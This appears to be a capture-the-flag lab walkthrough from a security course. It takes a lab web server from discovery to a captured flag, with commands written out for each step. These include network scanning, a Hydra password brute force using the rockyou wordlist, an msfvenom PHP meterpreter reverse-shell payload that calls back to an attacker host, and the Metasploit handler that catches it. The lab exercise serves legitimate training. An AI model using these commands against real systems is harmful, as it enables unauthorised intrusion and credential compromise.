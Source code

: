 ### Red Team 
In this activity, you will use a Kali instance to hack into a vulnerable web server. Hidden in the web server is a file called `flag.txt`. You will need to use a reverse php shell to gain access to the web server to recover the `flag.txt` document. 

**Part 1: Red Team Objectives**
Complete the following in order to find the flag:
- Discover the IP address of the Linux server.
```
netdiscover
```
<img src="images/red-01.png" />

```
Db_nmap 172.16.84.205 -Pn -p-
```
<img src="images/red-02.png" />

```
Db_nmap 172.16.84.205 -A
```
<img src="images/red-03.png" />

```
Nikto --host http://172.16.84.205
```
<img src="images/red-04.png" />
<img src="images/red-05.png" />

```
printf “GET / HTTP/1.0\r\n\r\n” | nc 172.16.84.205 80 | less
```
<img src="images/red-06.png" />

- Use Burp Suite to generate a sitemap by manually browsing the site.
<img src="images/red-07.png" />

- Use Burp Spider to expand your sitemap.
<img src="images/red-08.png" />

- Locate the hidden directory on the server.
company_folders/secret_folder
<img src="images/red-09.png" />

- Brute force the password for the hidden directory.
<img src="images/red-10.png" />

```
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 172.16.84.205 http-get /company_folders/secret_folder/
```
<img src="images/red-11.png" />
<img src="images/red-12.png" />

- Break the hash password with John the Ripper
<img src="images/red-13.png" />

- Connect to the server via Webdav.
<img src="images/red-14.png" />

- Generating a reverse shell with msfvenom.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.84.55 LPORT=6666 -f raw -or evil.php
```
<img src="images/red-15.png" />

- Upload a reverse php connection payload.
<img src="images/red-16.png" />
```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.84.55
LHOST => 172.16.84.55
msf exploit(handler) > set LPORT 6666
LPORT => 6666
msf exploit(handler) > exploit
```

- Capture and show the flag.
<img src="images/red-17.png" />
